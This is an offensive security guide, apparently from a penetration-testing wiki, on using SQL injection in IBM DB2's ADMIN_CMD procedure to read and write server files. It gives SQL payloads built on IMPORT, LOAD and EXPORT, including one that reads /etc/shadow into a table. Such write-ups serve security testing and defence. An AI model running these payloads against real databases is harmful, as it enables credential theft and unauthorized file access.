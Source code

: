 ```yaml
---
title: Exploiting DB2 for File Read/Write via SQL Injection
description: Learn how to exploit SQL Injection in IBM DB2 for file read/write operations.
keywords:
- DB2 SQL Injection
- file read
- file write
- ADMIN_CMD
- external script execution
- db2cmd
- server exploitation
---
```


# DB2 File Read/Write

## Context

Exploiting SQL Injection vulnerabilities in IBM's DB2 database can open up avenues for unauthorized file read and write operations. This guide demonstrates how attackers leverage misconfigurations and inadequate input validations in DB2's `ADMIN_CMD` to perform such operations. A foundational understanding of SQL Injection, file system permissions, and database privilege structures is assumed.

Note: The effectiveness of these techniques depends on several factors including DB2 version, operating system, user privileges, and database configuration. This guide assumes a relatively permissive environment for demonstration purposes.

## Theory

### ADMIN_CMD and Its Role in DB2

The `ADMIN_CMD` stored procedure is an administrative interface that permits execution of database-level commands such as reorganization, runstats, and file imports. While it does not natively support arbitrary shell commands, attackers may still abuse it by targeting adjacent procedures or poorly implemented wrappers in custom UDFs (User Defined Functions).

#### Misconceptions About `ADMIN_CMD`

Contrary to popular assumptions, `ADMIN_CMD` does not directly support Unix shell commands like `cat` or `echo`. Such commands may only execute through auxiliary means—like wrapped OS-level script calls, or vulnerable stored procedures linked via fenced-mode UDFs.

### File System Access via SQL Injection

By exploiting SQL Injection through `ADMIN_CMD`, attackers can gain access to a target's file system. This process involves injecting malicious SQL code that instructs the database server to execute file read or write commands—effectively treating the database as a gateway to the server's underlying file system. The attack's success hinges on leveraging the database's existing permissions to authenticate and execute these operations without direct access to the server.

### Understanding DB2 Permissions

In DB2, executing the `ADMIN_CMD` routine requires specific privileges. The following authorities are necessary to execute this routine:

EXECUTE privilege on the routine
DATAACCESS authority
DBADM authority
SQLADM authority

### Leveraging External Scripts for Exploitation

Beyond direct SQL injections, DB2 allows for external script execution. Attackers can exploit this by crafting SQL Injection payloads that execute external scripts on the database server, potentially enacting file reads, writes, or even system commands. This capability highlights the significant risk associated with allowing command execution features within DB2, particularly when misconfigured or insufficiently controlled.

## Practice

### File Read via SQL Injection

The following approach demonstrates reading a file using SQL Injection with `ADMIN_CMD`:

- **Inject the command using `IMPORT`**:
    ```sql
    CALL SYSPROC.ADMIN_CMD('IMPORT FROM /tmp/data.del OF DEL INSERT INTO sensitive_table');
    ```

    This command attempts to load data from a file into a DB2 table. If attackers can control the file path or target table, this could lead to sensitive file disclosure via indirect reads.

- **Alternate technique using `LOAD`**:
    ```sql
    CALL SYSPROC.ADMIN_CMD('LOAD FROM /tmp/shadow.del OF DEL INSERT INTO sensitive_table');
    ```
    This example uses the `LOAD` command to bring data from a file into a DB2 table. It can be faster than `IMPORT` and supports more complex data structures. As with `IMPORT`, success depends on control over the file path and permissions.

- **Trick using `MODIFIED BY HEX`**:
This technique tries to load non-DEL or binary files into a DB2 table by treating the input as hex-encoded content. It's useful when the file isn't structured as a traditional CSV or delimited format. The target table should be flexible enough to accept large, raw string data—for example:
    ```sql
      CREATE TABLE shadow_dump (col1 VARCHAR(32000));
    ```

    ```sql
    CALL SYSPROC.ADMIN_CMD('IMPORT FROM /etc/shadow OF DEL MODIFIED BY HEX INSERT INTO shadow_dump');
    ```
    This won't always parse cleanly, but it can help extract readable segments from otherwise unsupported file types.

- **Outcome**: Successful execution would result in indirect access to file contents through database tables.

### File Write via SQL Injection

To write data to a file using SQL Injection, the following is employed:

- **Inject the command**:
    ```sql
    CALL SYSPROC.ADMIN_CMD('EXPORT TO /tmp/export.del OF DEL SELECT * FROM sensitive_table');
    ```

    This exports sensitive table data to a file on disk, assuming the DB2 instance has necessary write permissions. It demonstrates a valid write scenario leveraging legitimate export functionality.

- **Outcome**: The ability to write arbitrary data to the server, which could lead to further code execution or data tampering.

## Tools

- **Burp Suite**
- **sqlmap**


